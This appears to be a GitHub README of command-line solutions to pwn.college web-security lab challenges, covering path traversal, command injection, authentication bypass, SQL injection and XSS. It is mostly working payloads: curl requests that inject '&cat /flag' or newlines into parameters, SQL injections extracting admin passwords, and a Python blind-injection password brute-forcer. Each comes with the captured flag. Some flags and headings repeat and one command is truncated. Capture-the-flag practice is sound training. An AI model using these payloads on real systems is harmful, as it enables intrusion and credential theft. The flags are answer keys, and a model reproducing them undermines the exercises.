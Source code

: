 # Web Security

Solutions to web security challenges using the commandline

## Path Traversal 1

```bash
curl --path-as-is "http://challenge.localhost/package/../../flag"
```
pwn.college{oueKOcA8sNYfpdjGoSxNzsfEs1d.ddDOzMDL5ETN1QzW}


## Path Traversal 2

```bash
curl --path-as-is "http://challenge.localhost/deliverables/fortunes/../../../flag"
```

pwn.college{cwIKmmwFzsfDTl3NF7NKgzQy6Fj.dJjN1YDL5ETN1QzW}


## CMDi 1

```bash
curl "http://challenge.localhost/checkpoint?root=%26cat%20/flag"
```

pwn.college{4ybvnKvITMP8jZee7xbFwBnEZyy.dVjN1YDL5ETN1QzW}


## CMDi 2

```bash
curl "http://challenge.localhost/checkpoint?folder=%26cat%20/flag"
```

pwn.college{8Ece3608TlTjvsSEQOaKTxINgxz.dRjN1YDL5ETN1QzW}


## CMDi 3

```bash
curl "http://challenge.localhost/quest?path=/'%26cat%20'/flag"
```

pwn.college{IAzfFj-BONGXN7XNj9XHiEkajYY.dZjN1YDL5ETN1QzW}


## CMDi 4

```bash
curl "http://challenge.localhost/event?time-zon=MST%20date%26cat%20/flag%26"
```

pwn.college{gBDmnKBaP1AjJ_iM1bRhdbOcUS-.dhDOzMDL5ETN1QzW}


## CMDi 5

```bash
curl "http://challenge.localhost/mission?full-path=%26cat%20/flag>flag"
```

pwn.college{UCPh8xvJDNnfdofq0YmQFsH1B2Q.ddjN1YDL5ETN1QzW}


## CMDi 6

Use newline char to run as two separate commands: **`%0a`**

```bash
curl "http://challenge.localhost/adventure?directory-path=%0acat%20/flag"
```

pwn.college{4hPnSLHoico5F1K2Tk4_xyxPVnA.dRzN1YDL5ETN1QzW}


## Authentication Bypass 1

```bash
curl "http://challenge.localhost/?session_user=admin"
```

pwn.college{c0Cpdut90rSyMEuIA83tbKLBvFn.dlDOzMDL5ETN1QzW}


## Authentication Bypass 2

```bash
curl -b "session_user=admin" "http://challenge.localhost/"
```

pwn.college{otLQb8T1qqVibXbzo1IuZzPJSCy.dJzN1YDL5ETN1QzW}


## SQLi 1

```bash
curl -c cookies.txt -X POST http://challenge.localhost/authentication -d "user-handle=admin&pin=1 OR 1=1"
curl -b cookies.txt http://challenge.localhost/authentication
```

pwn.college{gaRlBENzFTohvswxxyMqbglEBML.dNzN1YDL5ETN1QzW}


## SQLi 2

Escape and inject:

```bash
curl -c cookies.txt -X POST http://challenge.localhost/logon -d "userid=admin&account-password=1' OR '1'='1"
curl -b cookies.txt http://challenge.localhost/logon
```

pwn.college{QIj_7-GyKdDlTQvOKwe25QqKshQ.dBTOzMDL5ETN1QzW}


## SQLi 3

Use **`UNION`**:

```bash
curl "http://challenge.localhost/?query=%22%20OR%201%3D1%20UNION%20SELECT%20password%20FROM%20users%20WHERE%20username%3D%27admin%27%20--"
```

pwn.college{4MtDhYlv1kgW7p-o89NkroVeHmS.dFTOzMDL5ETN1QzW}


## SQLi 4

Read master list of table names, then get dig into that table:

" UNION SELECT name FROM sqlite_master WHERE type='table' --

```bash
curl "http://challenge.localhost/?query=%22%20OR%201%3D1%20UNION%20SELECT%20name%20FROM%20sqlite_master%20WHERE%20type%3D%27table%2
curl "http://challenge.localhost/?query=%22%20OR%201%3D1%20UNION%20SELECT%20password%20FROM%20users_6569529725%20WHERE%20username%3
D%27admin%27%20--"
```

pwn.college{ElXqyq0xQuimm2g2VNo25TqtdQO.dJTOzMDL5ETN1QzW}


## SQLi 4

Brute force one letter at the time checking half alphabet each request

```py
#!/usr/bin/env python3
import requests
import string

BASE_URL = "http://challenge.localhost/"
USERNAME = "admin"
MAX_PASSWORD_LENGTH = 57  # longer since password may contain symbols

def extract_password():
    printable_chars = [c for c in string.printable if c not in string.whitespace or c == ' ']

    def check_injection(chars, position):
        # Escape single quotes in chars for safety
        escaped_chars = [c.replace("'", "''") for c in chars]
        chars_list = "', '".join(escaped_chars)
        injection = f"' OR (username = '{USERNAME}' AND SUBSTR(password, {position}, 1) IN ('{chars_list}')) -- "
        data = {
            "username": USERNAME,
            "password": injection
        }
        response = requests.post(BASE_URL, data=data)
        return response.status_code == 200

    password = ""

    for pos in range(1, MAX_PASSWORD_LENGTH + 1):
        candidates = printable_chars.copy()

        while len(candidates) > 1:
            mid = len(candidates) // 2
            left = candidates[:mid]
            right = candidates[mid:]

            if check_injection(left, pos):
                candidates = left
            else:
                candidates = right

        char = candidates[0]
        if check_injection([char], pos):
            password += char
            print(f"Found character {pos}: {repr(char)}")
        else:
            print(f"Password found: {password}")
            return password

    print(f"Password found (max length reached): {password}")
    return password

if __name__ == "__main__":
    extract_password()
```

pwn.college{ElXqyq0xQuimm2g2VNo25TqtdQO.dJTOzMDL5ETN1QzW}


## XSS 1

```bash
curl "http://challenge.localhost" -d "content=<input>"
```

then run the victims script to check to see if he gets our html:

```bash
./victim
```

pwn.college{gXXTEtO0VaLz4b_py4ji5hxxVZZ.dVzN1YDL5ETN1QzW}